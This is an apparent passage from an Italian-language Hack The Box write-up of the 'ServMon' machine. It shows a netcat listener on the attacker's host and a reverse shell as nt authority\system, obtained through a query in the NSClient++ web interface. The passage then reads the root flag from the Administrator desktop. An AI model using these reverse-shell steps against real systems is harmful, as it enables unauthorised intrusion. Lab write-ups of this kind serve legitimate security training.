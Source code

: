 ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/servmon]
└─# nc -lvp 443
listening on [any] 443 ...

```

ci rechiamo alla sezione Queries ed diamo run, e abbiamo la nostra shell
![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Servmon7.png)

e ci prendiamo la nostra root flag

```cmd
┌──(root㉿kali)-[/home/kali/htb/servmon]
└─# nc -lvp 443
listening on [any] 443 ...
10.10.10.184: inverse host lookup failed: Unknown host
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.184] 50138
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>type C:\\Users\\Administrator\\Desktop\\root.txt
type C:\\Users\\Administrator\\Desktop\\root.txt
d8daf71e0c150eea5f8d86073c17a526
```

